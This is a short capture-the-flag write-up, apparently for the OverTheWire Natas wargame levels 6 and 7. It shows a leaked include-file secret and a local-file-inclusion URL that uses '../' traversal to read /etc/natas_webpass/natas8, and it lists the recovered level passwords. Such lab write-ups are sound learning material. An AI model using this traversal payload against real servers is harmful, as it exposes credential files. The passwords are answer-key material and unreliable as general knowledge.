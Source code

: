 ### natas 6

```text
Click on view source code.
This gives us 1 script
```

```php
include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

```text
If POST = $Secret -> Access granted.
Where is secrect ?
Look at include
view-source:http://natas6.natas.labs.overthewire.org/includes/secret.inc
```

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

```text
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### Natas 7

```text
View source
hint: password for webuser natas8 is in /etc/natas_webpass/natas8
```

```markup
<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
```

HREFs look vulnerable to LFI

```text
http://natas7.natas.labs.overthewire.org/index.php?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/natas_webpass/natas8
```

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
